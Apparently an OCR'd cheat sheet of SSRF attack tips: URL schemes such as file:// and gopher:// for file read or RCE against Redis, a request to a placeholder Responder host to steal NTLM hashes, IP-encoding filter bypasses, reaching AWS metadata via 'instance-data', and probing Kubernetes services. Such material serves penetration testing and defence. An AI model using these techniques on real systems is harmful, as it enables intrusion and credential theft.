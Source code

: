 ```
# SSRF
1-Try other URL schemes:<br>
```
• file:// (file read)
• netdoc:// (file read)
• dict://
• gopher://
• jar://
• ldap://
• and more!
```
<br>
You might be able to get file read.
<br>
Or send multi-line requests to gain additional impact
<br>
(Ex: gopher + redis = likely RCE)<br>
<br>

2-Is the target running Windows?

Can't hit internal services?

(Well, try this even if you can)

Try to steal NTLM hashes with Responder.

`/vulnerable?url=http://your-responder-host`
<br><br>
3-Try alternative representations of IP addresses.

IPs can be represented in many ways including:
```
• octal
• decimal
• hexadecimal
• etc.
```
Try different representations.

You might get lucky.
<br><br>
4-Can't hit `169.254.169.254`?

On AWS, "instance-data" resolves to the metadata server.

Try hitting `http://instance-data` instead.
<br><br>
5- Know your target's technologies.

Look at job postings!

You might not be able to hit a meta-data service.

But there are likely other internal services!

(ex: I've pulled data from an internal Elasticsearch instance)
<br><br>
6- Are they using Kubernetes?

Search Burp history for `.default.svc` or `.cluster.local`

If you find references, try to hit them.

```